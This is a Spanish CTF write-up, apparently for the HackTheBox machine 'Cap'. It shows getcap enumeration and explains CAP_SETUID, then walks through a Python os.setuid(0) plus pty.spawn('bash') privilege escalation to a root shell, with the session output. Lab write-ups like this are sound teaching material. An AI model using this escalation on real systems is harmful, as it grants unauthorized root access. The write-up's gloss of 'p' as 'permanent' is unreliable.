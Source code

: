 ### Local enumeration

- getcap -r

### Atack vector

- cap_setuid on python3.8


---
En Linux, **`CAP_SETUID`** es una de las capacidades del sistema de control de privilegios (capabilities). Esta capacidad permite a un proceso cambiar su identificador de usuario (UID) o de grupo (GID). Esto es normalmente una operación restringida al superusuario (root), pero al asignar la capacidad `CAP_SETUID` a un binario, un proceso puede cambiar su UID sin necesidad de ser ejecutado por el usuario root.


para activarlo en un sistema linux seria 
```bash
sudo setcap cap_setuid=eip /ruta/al/binario
```

En el equipo cap.htb observamos que python3.8 tiene habilitado el cap_setuid 
```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Cuando ves la salida de `getcap`, puedes interpretar lo siguiente:

- `cap_setuid`: Esta es la capacidad que se ha asignado al binario.
- `ep`: Significa que la capacidad es efectiva (e) y de tipo "permanent" (p), es decir, que está presente y se mantiene en la ejecución del binario.
---


# exploit

Vamos a probar a spawnear una rootshell en python:
```python
nathan@cap:~$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty
>>> import os
>>> os.setuid(0)
>>> pty.spawn("bash")
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

#Rooted 

